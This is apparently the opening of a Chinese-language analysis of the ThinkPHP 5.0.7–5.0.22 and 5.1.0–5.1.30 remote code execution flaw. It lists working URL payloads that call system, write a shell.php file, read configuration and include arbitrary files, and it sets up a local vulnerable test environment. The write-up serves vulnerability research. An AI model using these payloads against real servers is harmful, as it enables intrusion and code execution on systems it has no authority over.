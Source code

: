 本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行** 漏洞。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整：

**5.1.x** ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x** ：

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 漏洞环境

通过以下命令获取测试环境代码：

```bash
composer create-project --prefer-dist topthink/think tpdemo
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

然后执行 `composer update` 。接着访问 **http://localhost:8000/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1** 链接，即可触发 **远程代码执行漏洞** 。

![1](CTF%20总结/PHP-Audit-Labs/Part2/ThinkPHP5/ThinkPHP5漏洞分析之代码执行9/1.png)
